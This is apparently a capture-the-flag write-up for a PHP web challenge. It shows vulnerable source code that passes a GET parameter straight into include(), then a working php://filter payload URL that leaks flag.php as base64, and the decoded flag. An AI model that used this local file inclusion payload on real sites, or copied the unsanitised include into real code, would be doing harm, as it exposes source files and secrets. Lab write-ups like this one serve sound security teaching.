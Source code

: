 # SOLUTION

If you get the response for the index of `http://wargame:8080`.

```html
<html>
<head>
<title>BabyWeb</title>
</head>
<body>
<div align="center">
<h1>BabyWeb</h1>
<p>Quotes from your favourite books!</p>
<hr>
<div>
<em>
Please select a book.</em>
</div>
<a href="?page=harry">Harry Potter</a>
<a href="?page=twilight">Twilight</a>
<a href="?page=tiffanys">Breakfast at Tiffany's</a>
<a href="?page=iliad">The Iliad</a>
<hr>
<em>The flag is in flag.php</em>
</div>
</body>
</html>
```

If we click on a link, it sends us to a page like
`http://wargame:8080/?page=harry`.

```html
<html>
<head>
<title>BabyWeb</title>
</head>
<body>
<div align="center">
<h1>BabyWeb</h1>
<p>Quotes from your favourite books!</p>
<hr>
<div>
<em>
It is our choices, Harry, that show what we truly are, far more than our abilities.</em>
</div>
<a href="?page=harry">Harry Potter</a>
<a href="?page=twilight">Twilight</a>
<a href="?page=tiffanys">Breakfast at Tiffany's</a>
<a href="?page=iliad">The Iliad</a>
<hr>
<em>The flag is in flag.php</em>
</div>
</body>
</html>
```

What changes is the quote. This is the PHP source code relevant to the quote
changing:

```php
<?php

chdir("includes");

if (!isset($_GET["page"])) {
    $quote = "Please select a book.";
}

include($_GET["page"] . ".php");

echo($quote);

?>
```

There is a local file inclusion vulnerability in the code. This allows us to
grab the source code of `flag.php` with this bug. The solution would be to use
the following link:
`http://wargame:8080/?page=php://filter/convert.base64-encode/resource=flag`.

This gives the following response:

```html

<html>
<head>
<title>BabyWeb</title>
</head>
<body>
<div align="center">
<h1>BabyWeb</h1>
<p>Quotes from your favourite books!</p>
<hr>
<div>
<em>
PD9waHAKCiRxdW90ZSA9ICJUaXMgbm90IHNvIGVhc3kuIFRoZSBmbGFnIGlzIGluIGEgY29tbWVudC4iOwoKLy8gRmxhZzogdHIxY2sxbmdfcGhwXzFudDBfZzF2MW5nX3kwdV90aDFuZ3MKCj8+Cg==</em>
</div>
<a href="?page=harry">Harry Potter</a>
<a href="?page=twilight">Twilight</a>
<a href="?page=tiffanys">Breakfast at Tiffany's</a>
<a href="?page=iliad">The Iliad</a>
<hr>
<em>The flag is in flag.php</em>
</div>
</body>
</html>
```

Decoding the base64 code yields the following:

```php
<?php

$quote = "Tis not so easy. The flag is in a comment.";

// Flag: tr1ck1ng_php_1nt0_g1v1ng_y0u_th1ngs

?>
```
